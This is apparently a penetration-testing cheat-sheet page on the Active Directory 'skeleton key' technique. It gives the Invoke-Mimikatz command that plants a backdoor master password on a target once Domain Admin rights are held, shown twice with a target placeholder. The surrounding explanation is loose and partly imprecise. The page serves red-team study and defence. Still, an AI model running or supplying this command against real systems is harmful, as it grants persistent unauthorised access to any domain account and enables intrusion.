 # 🚒 Skeleton Keys

### **Create the skeleton key - Requires DA**

```
Invoke-MimiKatz -Command '"privilege::debug" "misc::skeleton"' -Computername <target>
```

To create a skeleton key on a target computer that allows access to any account on that system without requiring a password change, you would need to have Domain Admin (DA) privileges. The Mimikatz command to execute this action is as follows:

```powershell
Invoke-MimiKatz -Command '"privilege::debug" "misc::skeleton"' -Computername <target>
```

Replace `<target>` with the hostname or IP address of the computer, you wish to create a skeleton key for.&#x20;

This command must be run with administrative rights, hence the requirement for DA privileges.

### Sources

{% embed url="https://pentestlab.blog/2018/04/10/skeleton-key/" %}
